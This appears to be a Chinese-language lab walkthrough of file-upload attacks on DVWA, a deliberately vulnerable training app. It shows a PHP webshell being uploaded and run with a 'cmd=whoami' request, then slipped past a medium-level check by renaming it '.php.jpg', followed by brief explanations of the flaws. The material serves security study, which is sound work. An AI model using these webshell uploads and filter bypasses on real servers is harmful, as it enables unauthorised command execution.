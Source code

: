 - 開啟DVWA
    - 憑證: admin/password
    - 1
        - DVWA Security -> low
        - Sidebar -> Upload
        - cd /usr/share/webshells/php/
        - cp simple-backdoor.php ~
        - cd ~
        - 上傳 simple-backdoor.php
        - 於網址直接呼叫shell
            - http://192.168.75.131/dvwa/hackable/uploads/simple-backdoor.php?cmd=whoami
        - 回顧
            - 檔案上傳攻擊
            - 漏洞: 伺服器未充分驗證上傳檔案的內容或類型，導致攻擊者可以上傳任意檔案
    - 2
        - DVWA Security -> Medium
        - Sidebar -> Upload
        - cd /usr/share/webshells/php/
        - cp simple-backdoor.php ~
        - cp simple-backdoor.php simple-backdoor.pHP
            - 上傳
            - 行不通
        - cp simple-backdoor.php simple-backdoor.php.jpg
            - 上傳
            - 將檔名改為 .php.jpg，漏洞仍然能執行的原因，主要是因為目標伺服器對文件上傳處理和文件解析的安全性不足。
            - 只判斷檔名，但Server仍然執行內容


---

KALI: 192.168.75.130
靶機: 192.168.75.131


https://reurl.cc/36LRXX


